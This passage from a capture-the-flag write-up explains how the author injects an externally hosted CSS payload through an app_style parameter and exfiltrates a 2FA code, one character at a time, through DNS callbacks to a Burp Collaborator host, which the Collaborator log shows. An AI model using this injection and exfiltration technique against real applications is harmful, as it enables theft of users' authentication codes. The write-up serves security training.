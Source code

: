 To host the final payload I used [GitHub Gist](https://gist.github.com/) and [raw.githack.com](https://raw.githack.com/) to set the proper `Content-Type` headers:

```
app_style=<@urlencode_5>https://gist.githack.com/Techbrunch/82c3691e20a6c754a4f16e93d752cc3e/raw/837efa256058fc642443b7c59e81c7827d4a1ff4/h12006.css<@/urlencode_5>
```

This is how it looks like in Burp after we submit our payload (here I'm using [Taborator](https://portswigger.net/bappstore/c9c37e424a744aa08866652f63ee9e0f)):

![](<h12006-ctf-writeup/Screenshot 2020-06-04 at 09.21.23.png>){ loading=lazy }

Based on the requests made to the collaborator we can easily extract the 2FA code.

```
1-mt.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
2-mv.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
3-u.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
4-7.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
5-my.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
6-1.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
7-mw.vkjkf8p495807buale52hbo3musmgb.burpcollaborator.net
```

For this request, the 2FA code is `TVu7Y1W` , once submitted we get the final FLAG !
